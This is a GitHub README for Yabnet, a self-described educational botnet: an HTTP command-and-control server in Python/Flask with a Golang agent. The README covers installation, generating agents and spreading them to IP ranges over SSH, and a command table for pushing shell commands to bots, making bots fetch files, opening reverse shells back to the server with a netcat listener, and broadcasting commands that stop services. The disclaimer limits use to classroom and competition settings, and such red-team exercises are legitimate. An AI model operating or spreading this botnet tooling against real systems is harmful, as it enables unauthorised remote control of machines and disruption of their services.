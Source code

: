 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.
Yabnet is a HTTP based C2 server and agent that was designed, created, and intended to be used in an academic Attack/Defense competition environment. 

Yabnet server is written in Python3++ Flask, deployed in docker. Yabnet agent is written in Golang.

From setting up the server, freezing the agent, and distributing the agent to the target machine, yabnet aims to work out-of-the-box. That way, the red teamers could focus on more important stuffs, such as persistence. 

## Disclaimer
Yabnet is a proof of concept tool which was only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

## Under Construction - TODO 
-----------

**Yabnet is currently under construction.**
- [x] Dockerize server 
- [x] Create agent in `golang`, instead of using python 
- [x] Support windows for agent 
- [ ] Clean up debugging codes in all files 
- [ ] Finalize and structure all in-code comments 
- [x] Enhance README documentation and usage 
- [ ] Support communicating with PWNBOARD 


## Installation 

**Yabnet requires python3.7++, GOLANG, and docker**

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

Install Golang if it is not installed. 

```
cd /opt
git clone https://github.com/choisg/yabnet.git
cd /opt/yabnet
chmod +x install.sh
./install.sh
```

## Components 

**Server and Agent**

Server = Python flask application inside Docker container 

Agent = Golang based static executable 

**Utility scripts** 

`/yabnet/agent/competition_deployer.py` = Python script which helps to distribute and drops agent file to specific range of IP addresses via SSH

## Installation 

### Server setup - Docker
```
cd /opt/yabnet/server
docker build -t yabnet .
docker run -e USER=<username> -e PASS=<password> -e MASTERKEY=<masterkey> -p <ip>:5000:5000 yabnet 

(Example: docker run -e USER=admin -e PASS=password -e MASTERKEY=masterkey -p 192.168.204.153:5000:5000 yabnet )
```

### Agent setup - Golang 

**Generating Agent through master console**
```
python3 /opt/yabnet/master/master.py
Yabnet>> generate -i <serverip> -p <serverport> -f 
Yabnet>> generate -i 192.168.204.153 -p 5000 -f -w   // -w is for Windows
```

**Transfer the agent file** 

Transfer `/opt/yabnet/agent/agent` or `/opt/yabnet/agent/agent.exe` to the target machine and run it.

Feel free to change the name of the executable. 

### Master setup

Use the credential that was passed through the `docker run` command for the server. 

```
python3 /opt/yabnet/master/master.py
Yabnet>> login -r localhost -u <user> -p <password>
Yabnet>> list

# By the way, all master console commands have help flag.
Yabnet>> push -h 
``` 


## Operation 

The master console has various commands that can be used for controlling the bots. 

**All commands have `-h` help flag**

| Command | Description | Examples | 
| --- | --- | --- |
| login | Login to the server as a master | `login -r 10.0.0.1 -u admin -p password` |
| list | List all currently registered bots | `list` |
| push | Push a command to bot(s) | `push -t <botip>,<botip> -c "cat /etc/passwd | grep backdoor"` | 
| download | Command a bot to download a file from the server | `download -t <botip> -f <server_file> -d <bot_filesystem_destination>` | 
| reverse | Command a bot to start a reverse shell back to server | `reverse -t <botip> -p <server_listening_port>` | 
| broadcast | Push a command to entire bots | `broadcast -c "systemctl stop ssh"` | 
| help | List all possible commands | `help` | 

**Notes** 
1. Specifying multiple targets with `,` comma separator is possible. 

`ex) push -t 10.0.1.1,10.0.2.1,10.0.3.1 -c "systemctl stop apache2"`


2. Reverse shell command requires the master to open a new console and setup a netcat listener. 

`ex) reverse -t 10.0.3.4 -p 31337` 

`ex) nc -lvnp 31337         // And then for the reverse shell from 10.0.3.4` 

3. The server is hosting files in `/opt/yabnet/server/uploads/` directory. 

## Demo
<insert youtubelink here>

## Special Thanks 
[NotoriousRebel](https://github.com/NotoriousRebel) - "Every red teamer should create their own C2"
